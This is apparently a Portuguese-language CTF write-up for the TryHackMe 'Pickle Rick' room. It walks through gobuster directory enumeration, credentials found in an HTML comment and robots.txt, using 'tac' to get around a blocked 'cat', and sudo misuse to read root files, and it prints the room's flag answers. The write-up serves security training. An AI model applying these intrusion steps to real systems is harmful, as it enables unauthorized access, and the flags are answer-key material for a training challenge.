

# Pickle Rick - Writeup (THM)


Neste artigo vamos ver o meu passo-à-passo para resolver o desafio **Pickle Rick** na plataforma do **TryHackMe**! Vale lembrar que tudo isso foi registrado com base na minha experiência e que pode haver outras formas e meios de se chegar aos mesmos resultados. Sabendo disso, vamos lá!

---

Antes de começar, vamos adicionar o endereço gerado pela plataforma em um arquivo TXT para que não tenhamos que ficar redigitando o mesmo sempre que necessário, pois podemos pegar o valor utilizando o comando cat:

```bash
$ echo "https://10-10-104-244.p.thmlabs.com" > url.txt
$ cat url.txt
```

```
https://10-10-104-244.p.thmlabs.com
```

Jóia, entrando no endereço do site e ao inspencionar a página inicial, é possível verificar a nota:

```html
<!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

Decidi utilizar o **GoBuster** para pesquisar diretórios e/ou arquivos do site:

```bash
$ gobuster dir -u $(cat url.txt) -w /usr/share/wordlists/dirb/common.txt
```

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10-10-104-244.p.thmlabs.com
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/07/03 14:02:04 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 306]
/.htaccess            (Status: 403) [Size: 311]
/.htpasswd            (Status: 403) [Size: 311]
/assets               (Status: 301) [Size: 343] [--> http://10-10-104-244.p.thmlabs.com/assets/]
/index.html           (Status: 200) [Size: 1062]
/robots.txt           (Status: 200) [Size: 17]
/server-status        (Status: 403) [Size: 315]

===============================================================
2022/07/03 14:04:01 Finished
===============================================================
```

Conteúdo do aquivo **robots.txt**:

```
Wubbalubbadubdub
```

Realizei mais uma pesquisa de diretório e arquivos com uma outra wordlist, e para a minha surpresa encontramos uma página de login:

```bash
$ gobuster dir -u $(cat url.txt) -w ~/Tools/fuzz.txt/fuzz.txt
```

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10-10-104-244.p.thmlabs.com
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/zerodois/Tools/fuzz.txt/fuzz.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/07/03 14:09:22 Starting gobuster in directory enumeration mode
===============================================================
/%2e%2e//google.com   (Status: 400) [Size: 182]
/.ht_wsr.txt          (Status: 403) [Size: 313]
/.hta                 (Status: 403) [Size: 306]
/.htaccess-dev        (Status: 403) [Size: 315]
/.htaccess            (Status: 403) [Size: 311]
/.htaccess-local      (Status: 403) [Size: 317]
/.htaccess-marco      (Status: 403) [Size: 317]
/.htaccess.BAK        (Status: 403) [Size: 315]
/.htaccess.bak        (Status: 403) [Size: 315]
/.htaccess.bak1       (Status: 403) [Size: 316]
/.htaccess.old        (Status: 403) [Size: 315]
/.htaccess.orig       (Status: 403) [Size: 316]
/.htaccess.sample     (Status: 403) [Size: 318]
/.htaccess.save       (Status: 403) [Size: 316]
/.htaccess.txt        (Status: 403) [Size: 315]
/.htaccess_orig       (Status: 403) [Size: 316]
/.htaccess_extra      (Status: 403) [Size: 317]
/.htaccess_sc         (Status: 403) [Size: 314]
/.htaccessBAK         (Status: 403) [Size: 314]
/.htaccessOLD         (Status: 403) [Size: 314]
/.htaccess~           (Status: 403) [Size: 312]
/.htaccessOLD2        (Status: 403) [Size: 315]
/.htgroup             (Status: 403) [Size: 310]
/.htpasswd            (Status: 403) [Size: 311]
/.htpasswd_test       (Status: 403) [Size: 316]
/.htpasswd-old        (Status: 403) [Size: 315]
/.htpasswds           (Status: 403) [Size: 312]
/.httr-oauth          (Status: 403) [Size: 313]
/.htusers             (Status: 403) [Size: 310]
/assets/              (Status: 200) [Size: 2206]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/robots.txt           (Status: 200) [Size: 17]
/server-status/       (Status: 403) [Size: 316]

===============================================================
2022/07/03 14:11:24 Finished
===============================================================
```

Usuário e senha respectivamente:

```
R1ckRul3s
Wubbalubbadubdub
```

Na tela que foi exibida, executamos o comando `ls` e boom!



No entanto, o comando cat encontrava-se desabilitado. Sendo assim, decidi utilizar o comando `tac`, que também faz a leitura de arquivos mas da última para a primeira linha:

```bash
$ tac Sup3rS3cretPickl3Ingred.txt
```

```
mr. meeseek hair
```

Dando uma olhada nos arquivos do usuário **rick** podemos ver mais um arquivo suspeito utilizando o comando `ls -la /home/rick`:

```
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
```

Como o arquivo foi nomeado com um espaço no nome, precisamos utilizar um caracter de escape (`\`) para conseguir pegar o conteúdo do arquivo utilizando o comando `tac /home/rick/second\ ingredients`:

```
jerry tear
```

Para o último arquivo, vamos encontrá-lo na pasta `/root` no entanto, nosso usuário parece não ter acesso ao mesmo. Mas, engano seu! Se você digitar `sudo -l` vai ver uma informação **muito importante** na última linha do output.

Por fim, conseguiremos listar os arquivos do diretório com o comando `sudo ls -la /root`:

```
total 28
drwx------  4 root root 4096 Feb 10  2019 .
drwxr-xr-x 23 root root 4096 Jul  3 17:59 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Feb 10  2019 .ssh
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x  3 root root 4096 Feb 10  2019 snap
```

Não há mais nenhum segredo! Para realizar a leitura do arquivo temos que entrar com o comando `sudo tac /root/3rd.txt`:

```bash
3rd ingredients: fleeb juice
```

---

Então é isso! Espero que tenha aprendido algo e que este artigo sirva como base na resolução de problemas futuros.

**Abraços!**
